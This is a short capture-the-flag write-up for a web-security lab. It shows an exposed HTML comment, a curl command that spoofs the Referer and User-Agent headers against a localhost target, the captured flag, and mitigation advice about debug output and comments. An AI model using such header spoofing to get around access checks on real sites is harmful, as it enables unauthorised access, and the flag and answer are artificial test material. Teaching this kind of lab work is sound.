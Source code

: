 
## Exposed Comments


```
<!--
You must come from : "https://www.nsa.gov/".
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```


## Explanation 

```
 curl -e https://www.nsa.gov/ -A "ft_bornToSec" "http://127.0.0.1/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" | grep flag
```

```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6031    0  6031    0     0  1778k      0 --:--:-- --:--:-- --:--:-- 1963k
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

## Mitigation Measures:

To prevent these vulnerabilities, consider the following security practices:

Remove Debugging Information: Ensure that no debugging data, error messages, or stack traces are exposed in the production environment. Use environment-based logging and ensure errors are handled securely.
Disable Console Logs in Production: Make sure console.log(), console.error(), or any other debug-related console methods are removed or disabled in production code.

Sanitize Comments: Do not include sensitive information like user data, passwords, or configuration details in HTML comments or JavaScript variables.